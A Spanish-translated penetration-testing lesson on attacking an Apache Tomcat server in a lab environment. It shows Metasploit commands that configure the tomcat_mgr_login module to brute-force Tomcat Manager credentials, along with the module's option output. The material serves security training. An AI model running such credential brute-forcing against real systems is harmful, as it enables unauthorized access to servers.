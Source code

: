 # Attacking Tomcat

Hemos identificado que de hecho hay un host de Tomcat expuesto externamente por nuestro cliente. Como el alcance de la evaluación es relativamente pequeño y todos los demás objetivos no son particularmente interesantes, pasemos toda nuestra atención a intentar obtener acceso interno a través de Tomcat.

Como se discutió en la sección anterior, si podemos acceder al`/manager`o`/host-manager`Puntos finales, es probable que podamos lograr la ejecución de código remoto en el servidor TomCat. Comencemos por la página del Administrador de Tomcat en la instancia de Tomcat en`http://web01.inlanefreight.local:8180`. Podemos usar el[auxiliar/escáner/http/tomcat_mgr_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/)Módulo MetaSploit para estos fines, Burp Suite Intruder o cualquier número de scripts para lograr esto. Usaremos MetaSploit para nuestros propósitos.

---

# **Gerente de Tomcat - Fuerza Bruta de inicio de sesión**

Primero tenemos que establecer algunas opciones. Nuevamente, debemos especificar el VHOST y la dirección IP del objetivo para interactuar correctamente con el objetivo. También debemos establecer`STOP_ON_SUCCESS`a`true`Por lo tanto, el escáner se detiene cuando obtenemos un inicio de sesión exitoso, no sirve de nada para generar cargas de solicitudes adicionales después de un inicio de sesión exitoso.

Atacando a Tomcat

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58

```

Como siempre, verificamos para asegurarnos de que todo esté configurado correctamente por`show options`.

Atacando a Tomcat

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
```
